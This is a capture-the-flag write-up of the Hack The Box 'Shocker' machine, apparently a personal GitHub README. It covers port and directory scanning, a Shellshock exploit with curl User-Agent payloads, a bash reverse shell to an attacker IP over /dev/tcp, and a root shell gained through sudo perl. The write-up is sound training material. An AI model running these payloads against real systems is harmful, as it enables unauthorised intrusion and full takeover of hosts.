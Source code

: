 # HTB_Shocker


This is my write-up for the Shocker machine on Hack The Box. I exploited a Shellshock vulnerability in a Bash CGI script to gain initial access, then escalated to root using a simple sudo misconfiguration.

---

## Recon

### Nmap
I started with a full port scan:

```bash
nmap -A -Pn -p- -T4 10.129.163.43
````

![Nmap Scan](https://raw.githubusercontent.com/ibrahimAlbadrani/HTB_Shocker/refs/heads/main/Nmap1.png)


**Open ports:**

- `80/tcp` – Apache httpd 2.4.18
    
- `2222/tcp` – OpenSSH 7.2p2
    

The rest were filtered.

### Web Checks


![Whatweb](https://raw.githubusercontent.com/ibrahimAlbadrani/HTB_Shocker/refs/heads/main/whatweb.png)



- `whatweb` confirmed Apache 2.4.18
    
- Edited `/etc/hosts` to include:
    
    ```
    10.129.163.43 shocker.htb
    ```
    

---

## Web Enumeration

I ran both `dirsearch` and `gobuster` to find hidden paths.

```bash
gobuster dir -u http://shocker.htb -w /usr/share/wordlists/dirb/common.txt
```

![Gobuster Scan](https://raw.githubusercontent.com/ibrahimAlbadrani/HTB_Shocker/refs/heads/main/gobuster.png)

![Dirsearch Scan](https://raw.githubusercontent.com/ibrahimAlbadrani/HTB_Shocker/refs/heads/main/Dirsearch.png)



That revealed `/cgi-bin/`.

Then I focused on that path with extensions:

```bash
gobuster dir -u http://shocker.htb/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x sh,pl,cgi
```

![Gobuster Directory Brute Force](https://github.com/ibrahimAlbadrani/HTB_Shocker/blob/main/Gobuster%20Brute%20Force.png?raw=true]
Found:

```
/cgi-bin/user.sh
```

When I accessed it, it returned basic uptime output — a Bash CGI script.

---

## Exploitation – Shellshock (CVE-2014-6271)

I tested Shellshock with:

```bash
curl -H "User-Agent: () { :; }; echo; /bin/id" http://shocker.htb/cgi-bin/user.sh
```

It responded with the UID of `www-data`. So it was vulnerable.

### Reverse Shell

I set up my listener:

```bash
nc -lvnp 4444
```

Then launched the attack:

```bash
curl -H "User-Agent: () { :; }; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.71/4444 0>&1'" http://shocker.htb/cgi-bin/user.sh
```

Got a shell as user `shelly`.

---

## Privilege Escalation

First, I checked for sudo rights:

```bash
sudo -l
```

Output:

```
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

That means I could run Perl as root with no password.

### Root Shell

I used:

```bash
sudo perl -e 'exec "/bin/bash";'
```

Confirmed with `whoami` — I was root.

---

## Flags

- `user.txt`: Found in `/home/shelly/
    
- `root.txt`: Found in `/root/root.txt

---

## Notes

This machine was a good refresher on CGI-Bash vulnerabilities and the Shellshock CVE. I avoided using Metasploit or automated exploits — everything was done manually to improve my process understanding.

---

**Written by:** Ibrahim Ismaeel  
[GitHub Profile](https://github.com/IbrahimAlbadrani)
